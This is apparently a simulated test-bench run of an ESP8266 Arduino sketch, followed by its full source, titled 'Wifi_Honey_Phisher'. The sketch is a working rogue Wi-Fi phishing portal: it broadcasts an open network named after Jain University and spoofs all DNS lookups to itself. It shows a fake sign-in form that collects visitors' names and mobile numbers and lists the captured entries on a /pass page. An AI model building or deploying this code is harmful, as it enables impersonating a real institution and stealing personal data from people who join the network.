
Simulated run of this sketch. Board: ESP8266 (NodeMCU). On the bench: output pins drawn as LEDs (lit = HIGH, except the on-board LED, lit = LOW). Dashed ring = blinking. Inputs (shaded band) come from the test bench.

Above: at 1.2 s.
1.3 s: HTTP request GET /post received
At 1.7 s:

Timing chart, 0 to 7.3 s (numbered marks = the images above; inputs shaded):


Measured:
- after the input at 1.3 s, GPIO 2: alternates HIGH for 0.50 s and LOW for 0.50 s, 10 changes in all, then stays HIGH, starting at once

The sketch:

Wifi_Honey_Phisher.ino
```cpp
// ESP8266 WiFi Captive Portal
// By 125K (github.com/125K)

// Includes
#include <ESP8266WiFi.h>
#include <DNSServer.h>
#include <ESP8266WebServer.h>

// User configuration
#define SSID_NAME "Jain University"
#define SUBTITLE "Welcome Free Wi-Fi service.<br> You can enjoy 60 Minitues of free Wi-Fi"
#define TITLE "Sign in:"
#define BODY "Create an account to get connected to the internet."
#define POST_TITLE "Validating..."
#define POST_BODY "Your account is being validated. Please, wait up to 1 minutes for device connection.</br>Thank you."
#define PASS_TITLE "Credentials"
#define CLEAR_TITLE "Cleared"

// Init System Settings
const byte HTTP_CODE = 200;
const byte DNS_PORT = 53;
const byte TICK_TIMER = 1000;
IPAddress APIP(172, 0, 0, 1); // Gateway

String Credentials="";
unsigned long bootTime=0, lastActivity=0, lastTick=0, tickCtr=0;
DNSServer dnsServer; ESP8266WebServer webServer(80);

String input(String argName) {
  String a=webServer.arg(argName);
  a.replace("<","&lt;");a.replace(">","&gt;");
  a.substring(0,200); return a; }

String footer() { return
  "</div><div class=q><a>&#169; All rights reserved by Riglabs Collective.</a></div>";
}

String header(String t) {
  String a = String(SSID_NAME);
  String CSS = "article { background: #f2f2f2; padding: 1.3em; }"
    "body { color: #333; font-family: Century Gothic, sans-serif; font-size: 18px; line-height: 24px; margin: 0; padding: 0; }"
    "div { padding: 0.5em; }"
    "h1 { margin: 0.5em 0 0 0; padding: 0.5em; }"
    "input { width: 100%; padding: 9px 10px; margin: 8px 0; box-sizing: border-box; border-radius: 0; border: 1px solid #555555; }"
    "label { color: #333; display: block; font-style: italic; font-weight: bold; }"
    "nav { background: #0066ff; color: #fff; display: block; font-size: 1.3em; padding: 1em; }"
    "nav b { display: block; font-size: 1.5em; margin-bottom: 0.5em; } "
    "textarea { width: 100%; }";
  String h = "<!DOCTYPE html><html>"
    "<head><title>"+a+" :: "+t+"</title>"
    "<meta name=viewport content=\"width=device-width,initial-scale=1\">"
    "<style>"+CSS+"</style></head>"
    "<body><nav><b>"+a+"</b> "+SUBTITLE+"</nav><div><h1>"+t+"</h1></div><div>";
  return h; }

String creds() {
  String content = "<ol>" + Credentials + "</ol>";
  if (content.length() == 4) { // Check if there are no credentials
    content = "<p>No credentials saved.</p>";
  }
  return header(PASS_TITLE) + content + "<br><center><p><a style=\"color:blue\" href=/>Back to Index</a></p><p><a style=\"color:blue\" href=/clear>Clear passwords</a></p></center>" + footer();
}

String index() {
  return header(TITLE) + "<div>" + BODY + "</ol></div><div><form action=/post method=post>" +
    "<b>Name:</b> <center><input type=text autocomplete=off name=name></input></center>" +
    "<b>Mobile Number:</b> <center><input type=text autocomplete=off name=mobile></input></center>" +
    "<input type=submit value=\"Sign in\"></form></center>" + footer();
}

String posted() {
  String name = input("name");
  String mobile = input("mobile");
  // Process name and mobile number here
  // For now, just store them in Credentials
  Credentials += "<li>Name: <b>" + name + "</b><br>Mobile: <b>" + mobile + "</b></li>";
  return header(POST_TITLE) + POST_BODY + footer();
}

String clear() {
  Credentials = "";
  return header(CLEAR_TITLE) + "<div><p>The credentials list has been reset.</p></div><center><a style=\"color:blue\" href=/>Back to Index</a></center>" + footer();
}

void BLINK() {
  int count = 0;
  while(count < 5){
    digitalWrite(BUILTIN_LED, LOW);
    delay(500);
    digitalWrite(BUILTIN_LED, HIGH);
    delay(500);
    count = count + 1;
  }
}

void setup() {
  bootTime = lastActivity = millis();
  WiFi.mode(WIFI_AP);
  WiFi.softAPConfig(APIP, APIP, IPAddress(255, 255, 255, 0));
  WiFi.softAP(SSID_NAME);
  dnsServer.start(DNS_PORT, "*", APIP); // DNS spoofing (Only HTTP)
  webServer.on("/post",[]() { webServer.send(HTTP_CODE, "text/html", posted()); BLINK(); });
  webServer.on("/pass",[]() { webServer.send(HTTP_CODE, "text/html", creds()); });
  webServer.on("/clear",[]() { webServer.send(HTTP_CODE, "text/html", clear()); });
  webServer.onNotFound([]() { lastActivity=millis(); webServer.send(HTTP_CODE, "text/html", index()); });
  webServer.begin();
  pinMode(BUILTIN_LED, OUTPUT);
  digitalWrite(BUILTIN_LED, HIGH);
}

void loop() {
  if ((millis()-lastTick)>TICK_TIMER) {lastTick=millis();}
  dnsServer.processNextRequest();
  webServer.handleClient();
}
```
